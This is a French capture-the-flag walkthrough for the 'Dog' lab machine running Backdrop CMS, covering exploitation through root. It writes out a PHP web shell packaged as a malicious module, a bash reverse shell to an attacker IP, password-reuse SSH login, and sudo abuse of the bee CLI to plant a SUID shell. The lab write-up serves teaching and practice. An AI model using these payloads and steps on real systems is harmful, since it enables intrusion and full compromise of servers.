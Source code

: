 ### 💣 Phase 5 : Exploitation RCE

```bash
# 1. Création du module malveillant
mkdir shell
echo '<?php system($_GET["cmd"]); ?>' > shell/shell.php
cat > shell/shell.info << 'EOF'
name = Shell
description = Evil module
type = module
core = 1.x
EOF

# 2. Création de l'archive
tar -czvf shell.tar.gz shell

# 3. Upload via http://dog.htb/?q=/admin/modules/install
# 4. Activation et test
curl "http://dog.htb/modules/shell/shell.php?cmd=id"
```

### 🐚 Phase 6 : Reverse Shell

```bash
# Sur l'attaquant
nc -lvnp 1337

# Commande RCE
bash -c "bash -i >& /dev/tcp/10.10.14.8/1337 0>&1"
# → www-data shell obtenu
```

### 🔁 Phase 7 : Mouvement latéral

```bash
# Énumération des utilisateurs
cat /etc/passwd | grep '/home'
# → johncusack présent

# Connexion SSH avec réutilisation de mot de passe
sshpass -p 'BackDropJ2024DS2024' ssh johncusack@dog.htb
# → SSH johncusack obtenu !

# Récupération du user flag
cat /home/johncusack/user.txt
```

### 👑 Phase 8 : Escalade de privilèges

```bash
# 1. Vérification sudo
sudo -l
# → /usr/local/bin/bee autorisé

# 2. Exploitation via bee (CLI Backdrop)
sudo /usr/local/bin/bee --root=/var/www/html eval "echo shell_exec('whoami && id');"
# → root uid=0

# 3. Création d'un shell SUID
sudo /usr/local/bin/bee --root=/var/www/html eval "echo shell_exec('cp /bin/bash /tmp/bash && chmod u+s /tmp/bash');"

# 4. Exécution du shell root
/tmp/bash -p
whoami
```